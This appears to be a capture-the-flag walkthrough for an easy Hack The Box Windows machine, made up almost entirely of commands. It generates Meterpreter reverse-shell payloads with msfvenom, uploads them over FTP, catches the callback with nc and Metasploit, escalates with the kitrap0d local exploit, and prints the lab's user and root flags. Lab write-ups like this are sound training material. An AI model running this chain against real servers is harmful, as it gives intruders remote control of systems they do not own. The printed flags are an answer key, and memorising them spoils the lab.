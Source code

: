 ## 31072023Mon

**Windows** *Easy*

https://app.hackthebox.com/machines/3

![[Pasted image 20230731183816.png]]

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=4444 -f asp > exploit.asp
```

![[Pasted image 20230731184047.png]]

```
ftp 10.129.164.33
```

![[Pasted image 20230731184218.png]]

```
http://10.129.164.33/exploit.asp
```

![[Pasted image 20230731184341.png]]

```
nc -lvp 4444
```

![[Pasted image 20230731184420.png]]

```
http://10.129.164.33/welcome.png
```
![[Pasted image 20230731184519.png]]

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=4444 -f aspx > exploit.aspx
```
![[Pasted image 20230731185236.png]]
```
http://10.129.164.33/exploit.aspx
```
![[Pasted image 20230731185344.png]]
![[Pasted image 20230731185402.png]]
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
![[Pasted image 20230731185816.png]]
![[Pasted image 20230731190028.png]]
```
cd %TEMP%
```
```
use exploit/windows/local/ms10_015_kitrap0d
```
![[Pasted image 20230731191113.png]]
![[Pasted image 20230731191512.png]]
![[Pasted image 20230731191702.png]]

![[Pasted image 20230731192143.png]]

```
cat C:\\Users\\babis\\Desktop\\user.txt
```
*user.txt*
```
6179b357c668a80285f0dc909e5f63e3
```

```
cat C:\\Users\\Administrator\\\Desktop\\root.txt
```
*root.txt*
```
bbdd9af9835d374e24f1f5c9c6396c4d
```

![[Pasted image 20230731192803.png]]

![[Pasted image 20230731192421.png]]
![[Pasted image 20230731193006.png]]

### 29-Jan-24-Mon

*Guided Mode answered*
